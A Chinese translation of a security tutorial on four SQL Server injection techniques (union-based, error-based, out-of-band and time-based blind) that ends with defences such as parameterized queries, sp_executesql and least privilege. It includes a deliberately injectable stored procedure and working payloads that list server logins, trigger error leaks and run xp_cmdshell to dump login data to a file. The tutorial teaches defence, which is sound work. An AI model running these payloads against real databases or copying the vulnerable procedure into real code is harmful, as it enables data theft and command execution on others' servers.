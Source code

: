# 窃取数据的 4 种 SQL 注入技术

> 原文:[https://dev . to/Bert Wagner/4-SQL-injection-techniques-for-stealing-data-1fo 0](https://dev.to/bertwagner/4-sql-injection-techniques-for-stealing-data-1fo0)

[https://www.youtube.com/embed/UMJV3OpjsoM](https://www.youtube.com/embed/UMJV3OpjsoM)

<figcaption>[Watch this week’s episode on YouTube](https://youtu.be/UMJV3OpjsoM)</figcaption>

我并不主张你开始利用 SQL 注入窃取别人的数据。

但是，我确实认为您应该熟悉各种 SQL 注入技术，以便您可以更好地准备防止它们在您自己的查询中发生。

本文的其余部分将介绍四种用于从 SQLServer 中提取信息的常用技术，以及防止这些技术出现的简单解决方案。

我们将直接在 SQL Server 中查看所有这些技术，但请注意，所有这些信息也可能从应用程序前端获得。

## 联盟攻击

对于黑客来说，从易受注入攻击的查询中检索额外数据的最简单方法可能是通过基于联合的攻击。

基于 UNION 的注入攻击将 UNION 或 UNION ALL 语句添加到原始存储过程查询中，有效地返回第二个查询请求的任何数据。

假设我们有一个存储过程，它返回传入的@Username 值的用户信息:

```
-- Create our sample table data
CREATE TABLE dbo.Users
(
    Id int IDENTITY(1,1),
    Username NVARCHAR(100),
    FirstName NVARCHAR(100),
    LastName NVARCHAR(100)
);
GO
INSERT INTO dbo.Users VALUES ('BDubs','Bert','Wagner');
INSERT INTO dbo.Users VALUES ('JaneDough', 'Jane', 'Doe');

SELECT * FROM dbo.Users;

-- Create our procedure to retrieve name information
CREATE PROCEDURE dbo.USP_GetUserFullName
    @Username NVARCHAR(100)
AS
BEGIN
    DECLARE @Query NVARCHAR(MAX) = N'
        SELECT
            UserName,
            FirstName,
            LastName
        FROM
            dbo.Users
        WHERE
            Username = ''' + @UserName + N'''';
    EXEC(@Query);
END 
```

这个查询写得很差，很容易注入:

```
-- No injection
EXEC dbo.USP_GetUserFullName @Username = N'BDubs'

-- Injection, returns all rows
EXEC dbo.USP_GetUserFullName @Username = N'BDubs'' OR 1=1--'; 
```

让我们假设我们是一个邪恶的黑客，想要确定服务器上有哪些 SQL Server 登录可供我们使用。我们可以使用基于联合的注入攻击来查询 sys.syslogins，以获取这些信息并将其作为原始查询的一部分返回:

```
EXEC dbo.USP_GetUserFullName @Username = N'BDubs'' UNION ALL SELECT loginname,null,null FROM master.sys.syslogins;--'; 
```

[![](../Images/cbf7cfc1019d925968f77570fc28ed95.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--fwE8p6Q2--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://bertwagner.com/wp-content/uploads/2018/11/image.png)

这种基于联合的攻击只是将另一个查询的结果连接到我们的原始数据行。

## 基于错误的攻击

假设基于联合的技术不起作用，或者我们需要一种替代方法来确定当前登录的帐户。

另一种选择是让应用程序通过错误输出来揭示关于数据库的信息。

我们可以传入一个已知会产生错误的查询，在这种情况下，将字符串转换为 INT:

```
EXEC dbo.USP_GetUserFullName @Username = N'''; SELECT CAST(SYSTEM_USER AS INT);--'; 
```

[![](../Images/3afec6e8e6a1886a9ff631d5495dea8b.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--HgxhmW70--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://bertwagner.com/wp-content/uploads/2018/11/image-1.png)

瞧啊。如果应用程序没有正确处理错误消息，它会方便地将系统登录显示为错误消息的一部分。

## 带外交付

我们研究的前两种技术是**入站**攻击:也就是说，我们使用可注入查询直接向我们返回数据。

但是，如果有足够的安全性来防止意外数据直接返回到我们的应用程序中，该怎么办呢？我们必须通过其他方式从服务器上获取我们想要的数据。

这个例子使用 xp_cmdshell 将我们的数据写到一个文本文件中，但是我们也可以很容易地用它给自己发送一封电子邮件等等…

```
EXEC dbo.USP_GetUserFullName @Username = N'''; EXEC xp_cmdshell ''bcp "SELECT * FROM master.sys.syslogins" queryout "%TEMP%\pwned.txt" -c -T -q --'; 
```

[![](../Images/6904b39d20257494b0effc3333d0eeca.png)T2】](https://res.cloudinary.com/practicaldev/image/fetch/s--JefFwVAC--/c_limit%2Cf_auto%2Cfl_progressive%2Cq_auto%2Cw_880/https://bertwagner.com/wp-content/uploads/2018/11/image-2.png)

## **盲目注射**

一个安全的服务器可能不允许我们直接输出我们想要的数据，但这并不意味着我们不能推断出某些信息。

通常，我们为自己能够编写一致的快速查询感到自豪。但是我们致力于持续快速的执行，这为黑客提供了识别信息的方法，而不需要任何明确的数据输出。

例如，假设我们想猜测当前登录的帐户是否是“sa”。我们可以编写逻辑来检查这一点，并故意减慢可注入查询的执行速度，以确定我们的猜测是否正确:

```
EXEC dbo.USP_GetUserFullName @Username = N'''; if (SELECT SYSTEM_USER) = ''sa'' waitfor delay ''00:00:05'';--'; 
```

如果我们带有预期参数的查询通常以毫秒为单位返回，强制 5 秒钟的延迟将间接告知我们猜测的“sa”帐户名是正确的。

## 保护自己

防止 SQL 注入的最简单的方法是在不必要的时候避免使用动态 SQL。在上面的存储过程示例中，我们没有理由使用动态 SQL——这应该是一个参数化的查询，完全不会受到注入攻击:

```
CREATE PROCEDURE dbo.USP_GetUserFullName
    @Username NVARCHAR(100)
AS
BEGIN
    SELECT
        UserName,
        FirstName,
        LastName
    FROM
        dbo.Users
    WHERE
        Username =  @UserName;
END 
```

如果您必须使用动态 SQL，那么[使用 sp_executesql](https://bertwagner.com/2017/08/29/warning-are-your-queries-vulnerable-to-sql-injection/) 执行您以编程方式构建的查询字符串。该过程将安全地参数化您的输入，并防止发生注入。

最后，确保执行查询的帐户拥有尽可能少的权限。这样，即使您的查询有注入漏洞，攻击者造成的损害也是最小的。如果我们的帐户不能访问某些系统表或系统过程(如 xp_cmdshell ),上面的许多例子都会失败。

这些解决方案不会涵盖所有情况，但它们将涵盖大多数情况，并提高我们保护信息安全的机会。

*感谢阅读。你可能也会喜欢在 Twitter 上关注我。T3】*